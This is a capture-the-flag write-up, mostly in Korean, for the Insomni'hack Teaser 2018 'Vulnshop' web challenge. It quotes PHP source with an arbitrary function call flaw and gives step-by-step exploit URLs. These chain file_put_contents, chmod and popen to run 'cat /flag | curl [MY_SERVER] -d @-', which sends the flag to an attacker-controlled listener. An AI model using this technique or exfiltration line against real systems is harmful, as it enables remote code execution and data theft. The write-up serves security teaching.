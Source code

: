 # [WEB] Insomnia Hack Teaser 2018 - Vulnshop

## Description

We’re preparing a website for selling some important vulnerabilities in the future. You can browse some static pages on it, waiting for the official release.

[http://vulnshop.teaser.insomnihack.ch](http://vulnshop.teaser.insomnihack.ch/)

## Analysis

index.php의 소스를 얻을 수 있으며 소스의 중요한 부분을 보자.

```Php
if(isset($_GET['hl'])){ highlight_file(__FILE__); exit; } 
error_reporting(0); session_start();  
// Anti XSS filter 
$_REQUEST = array_map("strip_tags", $_REQUEST); 
// For later, when we will store infos about visitors. 
chdir("tmp"); 

switch($_GET['page']) { 
  case 'default': 
  default: 
    echo "<p>Welcome to our website about infosec. It's still under construction, but you can begin to browse some pages!</p>"; 
    break; 
  case 'introduction': 
    echo "<p>Our website will introduce some new vulnerabilities. Let's check it out later!</p>"; 
    break; 
  case 'privacy': 
    echo "<p>This website is unbreakable, so don't worry when contacting us about some new vulnerabilities!</p>"; 
    break; 
  case 'contactus': 
    echo "<p>You can't contact us for the moment, but it will be available later.</p>"; 
    $_SESSION['challenge'] = rand(100000,999999); 
    break; 
  case 'captcha': 
    if(isset($_SESSION['challenge'])) echo $_SESSION['challenge']; 
    // Will make an image later 
    touch($_SESSION['challenge']); 
    break; 
  case 'captcha-verify': 
    // verification functions take a file for later, when we'll provide more way of verification 
    function verifyFromString($file, $response) { 
      if($_SESSION['challenge'] === $response) return true; 
      else return false; 
    } 

    // Captcha from math op 
    function verifyFromMath($file, $response) { 
      if(eval("return ".$_SESSION['challenge']." ;") === $response) return true; 
      else return false; 
    } 
    if(isset($_REQUEST['answer']) && isset($_REQUEST['method']) && function_exists($_REQUEST['method'])){ 
      $_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']); 
    } 
    break; 

} 
```

page는 여러개의 case로 나뉘지만 실질적으로 사용하는 페이지는 3가지이다.

1. contactus

   challenge 세션의 값을 random(10000~99999)으로 생성한다.

2. captcha

   challenge 세션의 값이 존재하면 이 값을 보여주고, challege값과 같은 파일을 생성한다.

3. captcha-verify

   answer과 method 값을 받아 함수로써 실행해준다.

   `$_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);`

이 문제에서는 phpinfo도 보여주며, disable function을 확인할 수 있다.

```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,proc_open,system,shell_exec,exec,passthru,mail
```

exec관련 함수는 사용이 불가능해보이지만 popen함수는 disable_function에서 제외되어 있으므로 이를 이용해보자.

## Exploit

1. contactus에 접속하여 challenge 세션을 생성한다.

2. captcha에 접속하여 파일을 생성해준다.

3. captcha-verify에서 file_piut_contents함수를 사용해 다음과 같은 값을 파일에 쓴다.

   >   cat /flag | curl [MY_SERVER] -d @-

   `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&answer=cat%20%2Fflag%20%7C%20curl%20[MY_SERVER]%20-d%20%40-&method=file_put_contents`

4. chmod함수를 이용해 파일에 실행 권한을 준다.

   `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&answer=511&method=chmod`

5. popen을 이용해 파일을 실행시켜준다.

   `http://vulnshop.teaser.insomnihack.ch/?page=captcha-verify&answer=r&method=popen`

6. 서버에 저장한 명령어가 실행되면서 flag를 얻을 수 있다.

```
Listening on [0.0.0.0] (family 0, port 10101)
Connection from [MY_SERVER] port 10101 [tcp/*] accepted (family 2, sport 37054)
POST / HTTP/1.1
Host: MY_SERVER
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 38
Content-Type: application/x-www-form-urlencoded

INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun}
```



**INS{4rb1tr4ry_func_c4ll_is_n0t_s0_fun}**